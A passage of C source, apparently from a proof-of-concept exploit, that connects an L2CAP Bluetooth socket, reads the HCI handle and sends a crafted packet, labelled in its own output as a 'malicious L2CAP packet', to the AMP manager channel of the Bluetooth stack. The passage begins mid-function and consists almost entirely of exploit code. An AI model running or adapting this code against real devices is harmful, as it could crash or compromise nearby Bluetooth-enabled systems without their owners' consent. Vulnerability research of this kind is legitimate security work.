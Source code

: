 ```c
    if (bind(l2_sock, (struct sockaddr *)&laddr, sizeof(laddr)) < 0) {
        perror("bind");
        return 1;
    }
    if (connect(l2_sock, (struct sockaddr *)&raddr, sizeof(raddr)) < 0) {
        perror("connect");
        return 1;
    }
 
    struct l2cap_conninfo l2_conninfo;
    socklen_t l2_conninfolen = sizeof(l2_conninfo);
    if (getsockopt(l2_sock, SOL_L2CAP, L2CAP_CONNINFO, &l2_conninfo, &l2_conninfolen) < 0) {
        perror("getsockopt");
        return 1;
    }
 
    uint16_t hci_handle = l2_conninfo.hci_handle;
    printf("[+] HCI handle: %x\n", hci_handle);
    printf("[*] Sending malicious L2CAP packet...\n");
    struct {
        l2cap_hdr hdr;
        uint16_t ctrl;
        uint16_t fcs;
    } packet = {0};
 
    packet.hdr.len = htobs(sizeof(packet) - L2CAP_HDR_SIZE);
    packet.hdr.cid = htobs(AMP_MGR_CID);
    packet.fcs = crc16(0, &packet, sizeof(packet) - 2);
    hci_send_acl_data(hci_socket, hci_handle, &packet, sizeof(packet));
    close(l2_sock);
    hci_close_dev(hci_socket);
    return 0;
}
```